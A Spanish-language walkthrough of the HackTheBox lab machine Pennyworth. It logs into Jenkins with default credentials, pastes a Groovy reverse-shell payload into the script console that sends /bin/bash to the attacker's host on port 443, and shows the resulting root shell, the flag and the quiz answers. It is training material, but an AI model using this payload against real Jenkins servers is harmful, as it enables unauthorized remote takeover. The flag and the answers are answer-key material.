





Resolución de la máquina Pennyworth de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap, con -sV para ver versiones
❯ nmap 10.129.99.182
Nmap scan report for 10.129.99.182
PORT STATE SERVICE VERSION
8080/tcp open http Jetty 9.4.39.v20210325
Al abrir la web en el puerto 8080 podemos ver un simple login de Jenkins

Con wappalyzer podemos ver la versión de Jenkins 2.289.1

Podemos autenticarnos con credenciales por defecto en este caso root:password

Una vez autenticados tenemos acceso al panel de administración de Jenkins

Una forma de ejecutar comandos es ir a /script que admite ejecutar en Groovy script

Usamos un payload para Groovy que nos mande una /bin/bash a nuestro host por el puerto 443
String host="10.10.14.10";
int port=443;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
Lo pegamos y al ejecutarlo conseguimos una shell como root y leemos la flag
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.99.182
script /dev/null -c bash
Script started, file is /dev/null
root@pennyworth:/# id
uid=0(root) gid=0(root) groups=0(root)
root@pennyworth:/# hostname -I
10.129.99.182 dead:beef::250:56ff:feb9:6d9d
root@pennyworth:/# cat /root/flag.txt
9cdfb439c7876e703e307864c9167a15
root@pennyworth:/#
Vamos con las preguntas que nos pide la web de htb para pwnear la máquina
What does the acronym CVE stand for?
- Common Vulnerabilities and Exposures
What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?
- Confidentiality, Integrity, Availability
What is the version of the service running on port 8080?
- Jetty 9.4.39.v20210325
What version of Jenkins is running on the target?
- 2.289.1
What type of script is accepted as input on the Jenkins Script Console?
- Groovy
What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?
- cmd.exe
What is a different command than "ip a" we could use to display our network interfaces' information on Linux?
- ifconfig
What switch should we use with netcat for it to use UDP transport mode?
- -u
What is the term used to describe making a target host initiate a connection back to the attacker host?
- Reverse Shell
Submit root flag
- 9cdfb439c7876e703e307864c9167a15